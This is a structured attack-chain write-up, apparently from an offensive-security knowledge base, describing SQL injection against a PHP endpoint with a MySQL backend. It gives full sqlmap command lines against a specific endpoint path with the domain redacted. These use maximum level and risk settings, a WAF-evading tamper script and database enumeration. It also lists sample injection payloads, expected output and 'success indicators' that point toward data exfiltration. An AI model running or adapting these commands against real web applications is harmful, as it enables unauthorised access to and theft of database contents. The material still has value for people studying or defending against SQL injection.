

# SQL Injection Exploitation in PHP Endpoint to Enumerate MySQL Databases

Multi-stage attack chain demonstrating the discovery and exploitation of an SQL injection vulnerability in a PHP-based web endpoint, leading to database enumeration and potential data exfiltration.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5-10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- [[tools/sqlmap]]

### Target Environment

- Web application running PHP with MySQL backend
- Accessible HTTPS endpoint (e.g., /olc/set/m101/leasib.php)
- No authentication required for the vulnerable endpoint

### Initial Access Requirements

- Direct network access to the target domain
- No prior credentials needed; exploits public-facing application

## Detailed Attack Procedures

### Step 1: Test Endpoint for SQL Injection
procedure: [[procedures/Detect-SQL-Injection-with-sqlmap]]

**Objective**: Identify SQL injection vulnerabilities in POST parameters (scn, SUBJECT, COURSEID) using automated testing to confirm exploitability.

**Instructions**: Target the PHP endpoint with sqlmap, focusing on the scn parameter, using high-risk and thorough testing options to detect boolean-based blind, error-based, and time-based blind injection techniques.

Execute [[commands/sqlmap-detect-sqli-post]] to probe the vulnerability:

```bash
python3 sqlmap.py --level=5 --risk=3 --tamper=space2comment --random-agent -u https://████/olc/set/m101/leasib.php --data="COURSEID=M101&SUBJECT=Entry%20Briefing&StudentName=dPbRKJwr&Submit=Submit%20Confirmation&scn=0" -p scn
```

**Expected Output**: sqlmap reports detection of injection types, such as boolean-based blind (e.g., scn=0'||(SELECT 0x5648745a FROM DUAL WHERE 7300=7300 AND 1308=1308)||'5), error-based (e.g., involving FLOOR and RAND), and time-based blind (e.g., using SLEEP(5)).

**Success Indicators**:
- sqlmap confirms injectable parameters
- Multiple injection techniques identified
- No WAF blocks due to tamper script

### Step 2: Enumerate Available Databases
procedure: [[procedures/Enumerate-Databases-with-sqlmap]]

**Objective**: Leverage the confirmed SQL injection to list all accessible databases, revealing sensitive structures like information_schema, mysql, and custom databases (e.g., LEAM, SET).

**Instructions**: Extend the sqlmap session with the --dbs flag to dump database names, building on the vulnerable POST payload.

Execute [[commands/sqlmap-enumerate-databases]] to retrieve the database list:

```bash
python3 sqlmap.py --level=5 --risk=3 --tamper=space2comment --random-agent -u https://████/olc/set/m101/leasib.php --data="COURSEID=M101&SUBJECT=Entry%20Briefing&StudentName=dPbRKJwr&Submit=Submit%20Confirmation&scn=0" -p scn --dbs
```

**Expected Output**: A list of 13 databases, including information_schema, mysql, performance_schema, LEAM, SET, test, testadmin, and others.

**Success Indicators**:
- Database names enumerated successfully
- Custom application databases (e.g., LEAM, SET) exposed
- Potential for further data extraction identified

## Attack Chain Summary

### Key Achievements

1. Confirmed SQL injection in multiple POST parameters, bypassing basic input validation.
2. Identified exploitable techniques (boolean, error, time-based) against MySQL backend.
3. Enumerated 13 databases, enabling targeted data exfiltration or privilege escalation.

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[Exploit Public-Facing Application]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Collection]]

---
*Last updated: 2023-10-01T00:00:00Z*
